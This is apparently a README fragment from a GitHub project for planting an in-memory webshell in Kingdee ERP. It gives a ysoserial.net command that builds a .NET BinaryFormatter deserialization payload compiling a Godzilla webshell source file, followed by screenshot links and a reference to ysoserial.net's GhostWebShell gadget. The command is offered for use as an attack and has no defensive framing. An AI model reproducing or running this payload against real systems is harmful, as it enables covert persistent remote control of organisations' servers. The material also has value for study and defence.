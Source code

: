 `.\ysoserial.exe -f BinaryFormatter -g ActivitySurrogateSelectorFromFile -c "VirtualPath_Godzilla.cs;System.Web.dll;System.dll"`

<img width="1149" alt="image" src="https://github.com/bcvgh/Kingdee_erp_MemShell/assets/56790427/3c153a63-446b-4145-b0b4-6201ad5d08a7">

<img width="1273" alt="image" src="https://github.com/bcvgh/Kingdee_erp_MemShell/assets/56790427/2dbd9a2b-1584-4c11-8d6a-92f8d6f1aa0d">


<img width="494" alt="image" src="https://github.com/bcvgh/Kingdee_erp_MemShell/assets/56790427/1dce3770-af08-462d-b9b5-de55591206ab">

refer：
https://github.com/pwntester/ysoserial.net/blob/master/ExploitClass/GhostWebShell.cs



